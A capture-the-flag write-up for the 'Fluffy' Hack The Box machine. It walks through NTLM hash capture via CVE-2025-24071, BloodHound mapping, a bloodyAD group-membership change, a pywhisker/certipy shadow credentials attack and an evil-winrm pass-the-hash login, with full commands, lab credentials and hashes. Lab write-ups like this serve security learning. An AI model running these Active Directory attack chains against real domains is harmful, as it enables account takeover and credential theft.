 Add user `p.agila` to `Service Memebers` group so i can try to generate shadow creds:

`net rpc group members "Service Accounts" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "10.129.2.147"`



Generate "shadow credentials" option for `winrm_svc` user

`./bin/python3 pywhisker/pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"`

This saves .pfx file and prints password to stdout



Recovering NT hash for winrm_svc:

`certipy-ad auth -pfx unprotected.pfx -username 'winrm_svc' -domain fluffy.htb -dc-ip 10.129.2.147`

to get shell

`evil-winrm -i 10.129.2.147 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767`

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
File 'winrm_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Got hash for 'winrm_svc@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:33bd09dcd697600edf6b3a7af4875767
   
```

# Enumeration

> To start off with we are given the following known credentials: `j.fleischman:J0elTHEM4n1990!`. It seems we can't directly winrm with these creds, so like always we can check them against LDAP and SMB.

![asdf](https://i.imgur.com/bghV28D.png)



> Now that we have a valid SMB/LDAP login, we can start enumerating shares and users.

![asdf](https://i.imgur.com/Jpr9wFC.png)

![asdfasdf](https://i.imgur.com/jHcH7BF.png)



> Seeing the read/write perms for the `IT` share, we should enumerate it and see what's inside. When we do we find some interesting files:

![asdfasdfasdf](https://i.imgur.com/T8YVeA3.png)



> We see two zip files along with their extracted contents along with a file called `Upgrade_Notice.pdf` We open this file in a PDF viewer and see that it's a report detailing vulnerabilities in the system, specifically containing CVE numbers and their associated severity.

![recentvulns](https://i.imgur.com/lWKB1IH.png)



> Looking into the most critical CVEs, one in particular caught my eye. `CVE-2025-24071`

# Foothold

## CVE-2025-24071

> According to [vicarius.io](https://www.vicarius.io/vsociety/posts/cve-2025-24071-spoofing-vulnerability-in-microsoft-windows-file-explorer-detection-scrip): 
>
> "*CVE-2025-24071 is a vulnerability in Microsoft Windows File Explorer that could allow attackers to capture NTLM credentials via crafted network shares, leading to credential theft and broader compromise opportunities.*"
>
> Upon further research I found a [proof of concept](https://github.com/0x6rss/CVE-2025-24071_PoC) that details an implementation of this vulnerability where, if a `.library-ms` file is extracted from a .rar archive, Windows Explorer automatically initiates an SMB authentication request. This can lead to NTLM hash disclosure, and is the exploit we are going to attempt first since we found some .zip files in the share.
>
> 

![make the zip](https://i.imgur.com/AajXCNh.png)

## Domain Enumeration

> After we extract and crack the hash for user `p.agila`, we want to again test these credentials against winrm, SMB, and LDAP to see if we have any new permissions with the new user. Unfortunately it seems we still cannot winrm into the system, and the SMB perms seem to still be the same. Struggling to find any way other way in with the `p.agila`, I thought to try collecting data to feed into bloodhound and see what comes back.



```bash
bloodhound-python --username=p.agila --password=prometheusx-303 --domain=fluffy.htb -ns 10.129.232.88 --collectionmethod=All
```



> The above command collects all domain information on the `fluffy.htb` domain and its structure. Plugging it into bloodhound we can see a path from `p.agila` to the `winrm` account through the following permission chain:

![pathtowinrm](https://i.imgur.com/aNiwB0c.png)



> Since the `winrm_svc` user has permissions to remote into the machine it might get us into the system. We also see that we `p.agila` is a member of the `Service Account Managers` group, which has the `GenericAll` permission on `Service Accounts`, which has `GenericWrite` to the `winrm_svc` account. The bloodhound tips show that we can generate shadow credentials that will allow us to steal the NTLM hash of `winrm_svc` and login with it.



> The following command will add `p.agila` to the `Service Accounts` group, giving us `GenericWrite` over `winrm_svc`. This sets us up for a shadow credentials attack which should result in us receiving the accounts' NTLM hash.

```bash
bloodyAD --host 10.129.232.88 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila
```



> Next we use `certipy-ad`'s one shot command to take our `p.agila` credentials and obtain the hash.

```bash
certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account winrm_svc
```



> This command will first check if the `winrm_svc` user exists and that `p.agila` has the necessary permissions on `winrm_svc` (GenericWrite, GenericAll) to perform the attack. It will then generate a new RSA key pair (private/public key) to create a self-signed certificate formatted for Active Directory. The `winrm_svc` account's `msDS-KeyCredentialLink` attribute will then be modified to contain the public key we generated before. This allows for the bypassing of password authentication by allowing for certificate authentication instead.